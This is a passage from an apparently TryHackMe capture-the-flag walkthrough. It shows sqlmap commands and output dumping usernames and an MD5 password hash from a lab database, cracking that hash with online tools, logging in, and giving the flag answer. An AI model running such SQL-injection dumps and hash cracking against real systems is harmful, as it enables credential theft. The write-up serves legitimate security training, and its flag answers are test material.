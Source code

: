 ```
[20:14:11] [INFO] fetched data logged to text files under '/var/folders/dj/0jhmdqp10lj1ql8htw2f8g900000gn/T/sqlmapoutputec6ov6w2/10.10.207.62'

[*] ending @ 20:14:11 /2022-04-02/
```
Let's try to find a valid username and password ^^
```
sqlmap -r ~/Downloads/request.txt -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.2#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:20:37 /2022-04-02/

[20:20:37] [INFO] parsing HTTP request from '/Users/laurentnebout/Downloads/request.txt'
[20:20:37] [WARNING] unable to write to the output directory '/Users/laurentnebout/.local/share/sqlmap/output' ([Errno 13] Permission denied: '/Users/laurentnebout/.local/share/sqlmap/output/FVIx'). Using temporary directory '/var/folders/dj/0jhmdqp10lj1ql8htw2f8g900000gn/T/sqlmapoutputciyn_mgt' instead
.........
[20:31:13] [ERROR] invalid character detected. retrying..
[20:31:13] [WARNING] increasing time delay to 4 seconds
ce guy, say hello for me
select username,password from user [2]:
[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me

[20:37:26] [INFO] fetched data logged to text files under '/var/folders/dj/0jhmdqp10lj1ql8htw2f8g900000gn/T/sqlmapoutputciyn_mgt/10.10.207.62'

[*] ending @ 20:37:26 /2022-04-02/
```

Now we cand try to decrypt the **password** of **DesKel**.
- First: Go to [Hash analyzer](https://www.tunnelsup.com/hash-analyzer/). We found this hash is **MD4** or **MD5**
- Second: Go to [MD5 hashing website](https://md5hashing.net/) and decrypt it
	- Result: **cutie**
- Third: On the login page try the combo **DesKel / Cutie**
**Answer** 
#### THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql} 
---
### Easter 6
*hint*:Look out for the response header.
```
curl -s 10.10.207.62 -D header.txt
```
Check the **header.txt**
```
cat header.txt
HTTP/1.1 200 OK
Date: Sun, 03 Apr 2022 00:42:13 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
```